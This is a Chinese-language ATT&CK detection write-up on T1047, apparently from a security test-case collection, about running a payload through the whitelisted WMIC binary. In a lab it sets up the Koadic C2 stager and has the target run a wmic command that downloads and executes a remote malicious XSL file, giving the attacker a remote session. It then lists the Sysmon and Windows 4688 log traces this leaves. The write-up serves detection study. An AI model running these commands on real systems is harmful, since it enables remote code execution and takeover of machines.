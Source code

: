 # T1047-win-基于白名单WMIC执行payload

## 来自ATT&CK的描述

WMI（Windows Management Instrumentation）是Windows管理功能，它为本地和远程访问windows系统组件提供了统一的环境。它依赖WMI服务来进行本地和远程访问，以及SMB（服务器消息块）和RPCS（远程过程调用服务）来进行远程访问。RPCS通过端口135运行。

攻击者可能会使用WMI与本地和远程系统交互，也可能使用WMI来执行许多策略功能，例如为发现收集信息和远程执行文件来横向移动。

## 测试案例

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

说明：Wmic.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Wmic调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\wbem\wmic.exe
C:\WINDOWS\SysWOW64\wbem\wmic.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\wbem\WMIC.exe
C:\Windows\SysWOW64\wbem\WMIC.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### Koadic

通过Koadic发起Wmic.exe攻击

koadic是一个命令控制（C2）工具，类似Metasploit和Powershell Empire。使用koadic我们生成恶意XSL文件。koadic安装完成后，您可以运行./koadic 文件以启动 koadic，然后通过运行以下命令开始加载stager/js/wmic 程序，并将 SRVHOST 设置为程序回连IP。

```bash
git clone https://github.com/zerosum0x0/koadic.git  #安装命令
cd koadic
pip3 install -r requirements.txt
```

```bash
#加载载荷
./koadic
(koadic: sta/js/mshta)# use stager/js/wmic
(koadic: sta/js/wmic)# set SRVHOST 192.168.126.146
[+] SRVHOST => 192.168.126.146
(koadic: sta/js/wmic)# run
[+] Spawned a stager at http://192.168.126.146:9996/6G69i.xsl
[>] wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

#### 靶机执行payload

执行 WMIC 以下命令，从远程服务器下载和运行恶意XSL文件：

```cmd
wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

靶机测试结果

```dos
C:\Users\12306Br0>wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"12306BR0-PCroot\cimv2roo
t\cliIMPERSONATEPKTPRIVACYms_804ENABLEOFFN/AOFFOFFSTDOUTSTDOUTN/AON\Device\Hardd
iskVolume17601Multiprocessor FreeMicrosoft Windows 7 旗舰版 93686Win32_Operating
SystemWin32_ComputerSystemService Pack 112306BR0-PC480TRUETRUETRUE2FALSEFALSE256
29608362009844309911620200305144428.000000+48020200305151330.500000+480202004171
72815.995000+4800804Microsoft Corporation-18589934464zh-CNMicrosoft Windows 7 旗
舰版 |C:\Windows|\Device\Harddisk0\Partition2422164-bit205225618TRUE112306Br0004
26-292-0000007-85792102343416OK272\Device\HarddiskVolume2C:\Windows\system32C:44
4004820966326.1.7601C:\Windows
```

#### 反弹shell

一旦恶意的XSL文件在目标计算机上执行，你将有一个僵尸连接，就像Metasploit回连的情况一样。

```bash
[+] Zombie 0: Staging new connection (192.168.126.149) on Stager 0
[+] Zombie 0: 12306Br0-PC\12306Br0 @ 12306BR0-PC -- Windows 7 Ultimate
[!] Zombie 0: Timed out.
[+] Zombie 0: Re-connected.
(koadic: sta/js/wmic)# zombies 0

        ID:                     0
        Status:                 Alive
        First Seen:             2020-04-17 17:28:31
        Last Seen:              2020-04-17 17:29:04
        Listener:               0

        IP:                     192.168.126.149
        User:                   12306Br0-PC\12306Br0
        Hostname:               12306BR0-PC
        Primary DC:             Unknown
        OS:                     Windows 7 Ultimate
        OSBuild:                7601
        OSArch:                 64
        Elevated:               No

        User Agent:             Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0)
        Session Key:            02149f1202e3437ab7932672c0c9e6b5

        JOB  NAME                            STATUS    ERRNO
        ---- ---------                       -------   -------
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\wbem\WMIC.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: WMI Commandline Utility
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: wmic.exe
CommandLine: wmic  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x888
新进程名: 'C:\Windows\System32\wbem\WMIC.exe'
```

## 检测规则/思路

无具体检测。

## 参考推荐

MITRE-ATT&CK-T1047:<https://attack.mitre.org/techniques/T1047/>

windows下基于白名单获取shell的方法整理（上）:<http://www.safe6.cn/article/155>
